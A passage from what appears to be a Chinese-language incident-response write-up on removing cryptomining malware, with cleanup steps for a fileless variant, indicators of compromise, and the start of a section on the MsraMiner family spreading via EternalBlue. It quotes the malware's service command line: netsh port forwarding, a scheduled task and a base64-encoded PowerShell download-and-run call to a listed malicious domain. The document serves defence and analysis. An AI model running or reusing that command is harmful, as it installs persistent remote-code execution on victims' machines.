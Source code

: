 2）对于没有文件落地的版本

a.遍历服务，禁用服务名为随机字母组成、服务文件路径特征为

C:\Windows\system32\cmd.exe /C “netsh.exe firewall add portopening tcp 65530 DNS&amp;netsh interface portproxy add v4tov4 listenport=65530 connectaddress=1.1.1.1 connectport=53&amp;schtasks /create /ru system /sc MINUTE /mo 40 /st 07:00:00 /tn “MicrosoftwindowsRass” /tr “powershell -nop -ep bypass -e SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AdgAuAGIAZABkAHAALgBuAGUAdAAvAHcAbQA/AGgAZABwA

[![](https://p2.ssl.qhimg.com/t010757955f510230bd.png)](https://p2.ssl.qhimg.com/t010757955f510230bd.png)

b.遍历任务计划，清除powershell特征的任务

[![](https://p1.ssl.qhimg.com/t016543419682f2daa3.png)](https://p1.ssl.qhimg.com/t016543419682f2daa3.png)

其特征为：<br>
启动次数频繁(30-60分钟执行一次)

Powershell 参数如：-ep bypass -e + base64 编码数据、-hidden 隐藏窗口

用windows自带的任务计划图形界面程序有时候无法获取完全的任务计划(如2.3.5)，建议使用代码遍历任务计划文件夹C:\Windows\System32\Tasks或C:\Windows\Tasks，通过删除这些xml文件来清除任务计划。

a.清除注册表

HKEY_LOCAL_MACHINESoftwareMicrosoftWindowsCurrentVersionRun

删除以随机名称命名、数值数据为C:\Windows\System32\config\system\profile\AppData\Roaming + 随机名称的注册表键

b. 对于未知启动的恶意powershell，通过进程监控，阻断带有恶意参数的powershell进程（恶意参数参考2）

**IOCs**

IP：27.102.107.137

域名：p.beahh.com、v.beahh.com、v.y6h.net、down.bddp.net、p.bddp.net、v.bddp.net、p.zer2.com、p.awcna.com、p.amxny.com

### 2. MsraMiner挖矿家族

该挖矿木马家族在今年4-5月份也算是比较活跃的，在应急过程中，DZJ、JX、NJ、LZ项目中都有发现中此家族病毒的机器。

该变种利用“永恒之蓝”漏洞传播，在传播成功后，母体运行后释放服务模块，释放的服务模块名称随机拼凑。例如：ApplicationNetBIOSEvent.dll

[![](https://p1.ssl.qhimg.com/t01055d3baf7826ba80.png)](https://p1.ssl.qhimg.com/t01055d3baf7826ba80.png)

病毒从以下字符串拼凑：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01e095be179cfd264e.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t01a078952e6414fd07.png)

创建服务：ApplicationNetBIOSEvent(不同的机器不同服务名)，下放服务配置文件C:windowssystem32ApplicationNetBIOSEvent.dll
